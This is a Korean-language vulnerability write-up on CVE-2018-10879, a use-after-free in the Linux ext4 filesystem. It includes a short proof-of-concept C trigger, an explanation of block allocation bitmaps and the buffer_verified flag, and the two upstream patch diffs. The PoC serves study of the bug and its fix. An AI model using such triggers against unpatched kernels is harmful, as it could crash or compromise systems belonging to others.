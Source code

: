 CVE-2018-10879
==============

### Use After-free detected by KASAN in Ext4

#### **<POC.C>**

```c
#include <sys/types.h>
#include <sys/mount.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/xattr.h>
#include <dirent.h>
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <linux/falloc.h>
#include <linux/loop.h>
static void activity(char *mpoint) {
char *foo_bar_baz;
char *foo_baz;
int err;
err = asprintf(&foo_bar_baz, "%s/foo/bar/baz", mpoint);
err = asprintf(&foo_baz, "%s/foo/baz", mpoint);
rename(foo_bar_baz, foo_baz);
}
int main(int argc, char *argv[]) {
activity(argv[1]);
return 0;
}
```

<br>

---

### **Comment**

```
block 35는 block allocation bitmap으로 사용 된다.
```

**Block allocation이란?** <br>

모든 read-write 파일 시스템들은 파일에 배치할 때 문제가 발생한다. <br>

개별적으로 해결되야할 두가지 문제들이 존재한다. <br>

-	`free Block`을 찾는 과정 <br>
-	특정 파일의`데이터가 저장 되어있는` 블록을 기억하는 과정 <br>

extent는 블록의 range를 첫번째 블록의 숫자와 블록의 range 길이를 명시한다. <br>

위 두가지 문제점들의 대안은 각 블록의 번호를 따로 보관하는 것인데, 보통은 더 많은 공간이 필요하지만 간단하다. <br>

그래서 많은 파일 시스템들은 `allocation bitmap`을 사용한다. <br> 파일을 구성하는 블록을 저장하는 전통적인 UNIX방법은 extent를 사용하지 않고 블록 번호 목록을 사용한다.<br> 처음에는 inode 구조에 저장된다.(direct block) <br> 이 공간이 차게 되면 한 블록이 추가 블록 번호를 저장하도록 할당 된다.<br> 이 간접 블록의 블록 번호만 inode구조에 저장된다. <br> 그 공간도 소진될시 이 방법을 반복적으로 적용하여 이중 간접 블록 또는 삼중 간접 블록으로 이어진다.<br>**CVE-2018-10879**케이스에서는 block 35번이 allocation bitmap으로 사용 되고 있다. <br> 그리고 그 블럭은 buffer_verified flag가 set되어 있다. <br> 그후에 ext4_xattr_check_block()을 호출 할시, code는 buffer_verified flag를 체크하고 확인된 블록이라고 판단한다. <br> 그에 따라 2가지 패치를 한다. <br>

**(1) ext4: add corruption check in ext4_xattr_set_entry()**<br>&nbsp;&nbsp;&nbsp; <b>http://patchwork.ozlabs.org/patch/928666/<br>**(2) ext4: always verify the magic number in xattr blocks** <br>&nbsp;&nbsp;&nbsp; <b>http://patchwork.ozlabs.org/patch/928667/<br>

---

### **Patch**

(1) xattr 버퍼를 overrun하지 않는지 확인하는 추가적인 체크를 추가했다.

```c
static int ext4_xattr_set_entry(struct ext4_xattr_info *i,handle_t *handle, struct inode *inode, bool is_block)
{
 -struct ext4_xattr_entry *last;
 +struct ext4_xattr_entry *last, *next;
 struct ext4_xattr_entry *here = s->here;
 size_t min_offs = s->end - s->base, name_len = strlen(i->name);
 int in_inode = i->in_inode;
 static int ext4_xattr_set_entry(struct ext4_xattr_info *i,

    /* Compute min_offs and last. */
 last = s->first;
 -for (; !IS_LAST_ENTRY(last); last = EXT4_XATTR_NEXT(last)) {
 +for (; !IS_LAST_ENTRY(last); last = next) {
 +  next = EXT4_XATTR_NEXT(last);
 +  if ((void *)next >= s->end) {
 +          EXT4_ERROR_INODE(inode, "corrupted xattr entries");
 +          ret = -EFSCORRUPTED;
 +          goto out;
 ...
 +      }
```

(2) inode가 block allocation bitmap같은 다른 종류의 메타데이터 블록을 가리키는 경우에도, buffer_verified flag가 set될수 있다<br>

이러한 경우 외부의 attribute block을 만들수 있다.<br> verified flag를 사용하는 이유는 지속적으로 재검증을 막기 위해서이다. <br> 하지만 xattr block의 magic number를 확인하는 작업은 많은 overhead가 걸리지 않고 potential crashes를 피할수 있다. <br>

```c
__ext4_xattr_check_block(struct inode *inode, struct buffer_head *bh)
 {
    int error = -EFSCORRUPTED;

-   if (buffer_verified(bh))
-       return 0;
-
    if (BHDR(bh)->h_magic != cpu_to_le32(EXT4_XATTR_MAGIC) ||
        BHDR(bh)->h_blocks != cpu_to_le32(1))
        goto errout;
+   if (buffer_verified(bh))
+       return 0;
+
    error = -EFSBADCRC;
    if (!ext4_xattr_block_csum_verify(inode, bh))
        goto errout;
    ...
  }
```
